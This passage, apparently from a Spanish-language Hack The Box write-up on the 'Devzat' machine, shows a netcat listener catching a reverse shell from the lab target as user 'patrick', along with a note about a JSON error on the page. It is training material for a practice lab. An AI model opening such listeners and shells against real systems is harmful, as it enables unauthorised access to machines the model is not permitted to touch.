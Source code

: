 ![BurpSuite](/assets/images/hackthebox/machines/devzat/burpsuite2.png)

```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.15.113] from (UNKNOWN) [10.10.11.118] 43722
bash: cannot set terminal process group (871): Inappropriate ioctl for device
bash: no job control in this shell
patrick@devzat:~/pets$ 
```

Como curiosidad, si observamos la página vemos que se ha producido un error al tramitar nuestra petición:

![JSON Error](/assets/images/hackthebox/machines/devzat/json_error.png)

Vamos a realizar un tratamiento a la shell para mayor comodidad, recordad que esto siempre es recomendable hacerlo:
